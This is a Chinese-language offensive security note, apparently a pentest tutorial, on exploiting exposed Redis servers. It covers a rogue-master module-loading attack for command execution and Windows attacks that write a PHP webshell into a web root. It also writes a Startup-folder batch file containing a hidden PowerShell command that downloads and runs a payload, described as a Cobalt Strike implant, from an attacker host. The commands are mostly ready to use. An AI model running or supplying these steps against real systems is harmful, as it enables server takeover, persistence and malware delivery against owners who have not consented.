 如果当把数据存储在单个`Redis`的实例中，当读写体量比较大的时候，服务端就很难承受。

为了应对这种情况，`Redis`就提供了主从模式，主从模式就是指使用一个`redis`实例作为主机，其他实例都作为备份机

其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式

**`redis`模块**

 和`mysql`类似，`redis`也支持扩展命令，我们需要编写so文件，来扩展命令。

> 1、我们伪装成redis数据库，然后受害者将我们的数据库设置为主节点。
>
> 2、我们设置备份文件名为so文件
>
> 3、设置传输方式为全量传输
>
> 4、加载so文件，实现任意命令执行

```bash
./redis-cli -h 192.168.1.111
MODULE LOAD /root/redis-rogue-server/exp.so
system.exec "whoami"
```

现成的工具，exp利用脚本：[redis-rce](https://github.com/vulhub/redis-rogue-getshell)

[Redis安装和配置主从复制](https://blog.csdn.net/ywd1992/article/details/83542955)

### Windows下的利用

**1、知道网站绝对路径，写WebShell**

```bash
192.168.1.9:6379> config set dir D:/phpstudy_pro/WWW
OK
192.168.1.9:6379> config set dbfilename shell.php
OK
192.168.1.9:6379> set x "<?php phpinfo();?>"
OK
192.168.1.9:6379> save
OK
```

**2、写入启动项**

```bash
#由于Start Menu之间有空格，因此需要用双引号将路径包含
192.168.1.9:6379>config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
OK
192.168.1.9:6379>config set dbfilename shell.bat
OK
192.168.1.9:6379>set x “rnrnpowershell.exe -nop -w hidden -c ”IEX ((new-object net.webclient).downloadstring(‘http://192.168.1.105:80/a’))”rnrn”#这是CS用团队服务器生成的马
OK
192.168.1.9:6379> save
OK
```
